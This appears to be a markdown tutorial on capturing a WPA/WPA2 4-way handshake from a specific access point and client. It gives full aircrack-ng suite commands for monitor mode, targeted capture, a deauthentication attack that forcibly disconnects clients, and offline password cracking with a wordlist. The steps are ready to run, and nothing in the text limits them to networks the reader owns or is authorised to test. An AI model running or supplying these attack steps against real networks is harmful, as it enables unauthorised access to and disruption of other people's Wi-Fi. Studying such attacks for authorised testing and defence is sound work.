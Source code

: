 ## What’s an EAPOL Handshake?

- It’s part of the **WPA/WPA2 authentication process**.
- When a client connects to a Wi-Fi network, a **4-way handshake** happens.
- If you capture it, you can **crack the Wi-Fi password** offline.



## Objective: Capture EAPOL handshake from a specific target (Access Point + Client)


## Step-by-Step: Targeted Handshake Sniffing

### 1. Put Adapter into Monitor Mode

```bash
sudo airmon-ng start wlan0
```

This gives you `wlan0mon`.



### 2. Scan for Networks

```bash
sudo airodump-ng wlan0mon
```

- Get the:
  - **BSSID** of the target AP
  - **Channel** it’s on
  - Optional: **Client MAC** (STA) connected to it



### 3. Target Specific AP

```bash
sudo airodump-ng wlan0mon --bssid <AP_BSSID> --channel <CH> -w handshake
```

Example:

```bash
sudo airodump-ng wlan0mon --bssid 00:11:22:33:44:55 --channel 6 -w handshake
```

- This will **only capture packets** from that AP.
- Look out for "WPA handshake: [BSSID]" at the top-right — that means success.


### 4. Force Handshake with Deauthentication Attack

```bash
sudo aireplay-ng --deauth 10 -a <AP_BSSID> -c <Client_MAC> wlan0mon
```

- `-a`: AP MAC
- `-c`: Client MAC (optional)
- `10`: number of deauth packets

This forces the client to disconnect and **reconnect**, triggering a handshake.


### 5. Verify Handshake

Use `aircrack-ng` to check if the handshake is captured:

```bash
aircrack-ng handshake.cap
```

If handshake is present, you'll see a message like:

```
WPA handshake: 00:11:22:33:44:55
```


## Next Step: Crack the Password (If You Captured the Handshake)

```bash
aircrack-ng -w wordlist.txt -b 00:11:22:33:44:55 handshake.cap
```

You’ll need a **wordlist** like `rockyou.txt`.


## Tips
- Capture during peak hours when clients are connecting/disconnecting.
- Use `--ignore-negative-one` if channel errors pop up.
- You can analyze `.cap` in **Wireshark** and filter by `eapol`.
